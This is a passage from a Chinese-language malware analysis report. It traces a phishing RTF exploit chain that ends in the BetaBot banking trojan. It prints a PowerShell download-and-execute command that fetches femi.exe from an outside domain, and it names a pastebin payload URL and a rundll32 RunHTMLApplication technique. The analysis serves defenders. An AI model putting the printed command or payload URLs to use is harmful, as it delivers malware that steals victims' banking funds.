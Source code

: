 图1.3 邮件头截图

## 样本分析

对上述样本的技术分析显示其最后会加载一个BetaBot木马，并与C2连接实现远程控制，控制操作受害者的电脑窃取用户网银中的钱。

### RTF文件分析

样本中包含的RTF是经过简单混淆的文件，使用红雨滴团队的分析工具提取出shellcode后进行分析。

[![](https://p0.ssl.qhimg.com/t01569f7bd7dc4c5cf7.png)](https://p0.ssl.qhimg.com/t01569f7bd7dc4c5cf7.png)

图2.1 RTF文件内容截图

[![](https://p5.ssl.qhimg.com/t01c5b5b8797717ac56.png)](https://p5.ssl.qhimg.com/t01c5b5b8797717ac56.png)

图2.2提取出来的stream为Equation2版本

Shellcode会通过调用rundll32 javascript:”\..\mshtml,RunHTMLApplication去执行一个远程的HTA文件：

[![](https://p3.ssl.qhimg.com/t018a2c5cb90ac4654b.png)](https://p3.ssl.qhimg.com/t018a2c5cb90ac4654b.png)

图2.2 RunHTMLApplication执行远程HTA文件

和0xa6异或解密js的下载地址，地址为pastebin上的一个地址：

https://pastebin.com/raw/1fFneMx6

[![](https://p3.ssl.qhimg.com/t015a2da0162f5e0c72.png)](https://p3.ssl.qhimg.com/t015a2da0162f5e0c72.png)

图2.3 xor出js的下载地址

该js的内容会执行一段powershell命令。

[![](https://p5.ssl.qhimg.com/t014dea8cd5bc2b3852.png)](https://p5.ssl.qhimg.com/t014dea8cd5bc2b3852.png)

图2.4 js的内容

Base64解码出powershell命令的功能为从如下的URL下载femi.exe到temp的nvbackend.exe并通过js脚本执行起来：
<td valign="top" width="568">iex ((new-object net.webclient).downloadfile(“http://asia-kunsthandwea1-online.com/cs/femi.exe”,”$env:temp\nvbackend.exe”));</td>

从远程地址下载回来femi.exe，进行分析。

### femi.exe分析

MD5：6B4384B706D7FA925BDCEEB5B21C855C

该样本是nsis打包的一个文件，主要是为了躲避杀毒软件的静态查杀，该文件会释放一个foreandafters.dll，并通过nsis加载起来；而“Infamy”这个文件是加密的数据文件，后续会被foreandafters.dll和shellcode多次解密并加载。

[![](https://p0.ssl.qhimg.com/t01466456aa71ed58a5.png)](https://p0.ssl.qhimg.com/t01466456aa71ed58a5.png)

图3.1 femi.exe的nsis结构
